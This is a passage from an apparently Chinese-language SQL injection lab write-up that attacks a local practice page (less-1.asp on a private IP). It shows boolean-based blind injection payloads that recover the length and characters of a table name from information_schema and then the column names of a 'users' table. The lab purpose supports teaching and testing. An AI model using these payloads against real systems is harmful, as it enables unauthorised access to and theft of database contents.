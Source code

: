 ```sql
id=1'and len((select table_name from (select table_name, row_number() over (order by table_name) as row_num from test.information_schema.tables) as tables_with_row where row_num=5))=5 --+			
```

#### 获取最后一个表的表名-->`users`

```sql
http://192.168.100.226/less-1.asp?id=1'and substring((select table_name from (select table_name, row_number() over (order by table_name) as row_num from test.information_schema.tables) as tables_with_row where row_num=5),1,1)='w' --+
```

![image-20240905195948668](./assets/image-20240905195948668.png)

#### 获取字段

- 字段长度不测了,直接测字段名

```sql
//第一个字段名-->id
http://192.168.100.226/less-1.asp?id=1' and substring((select column_name from (select column_name, row_number() over (order by column_name) as row_num from test.information_schema.columns where table_name = 'users') as columns_row where row_num = 1),1,1)='d' --+
```

![image-20240905201349928](./assets/image-20240905201349928.png)
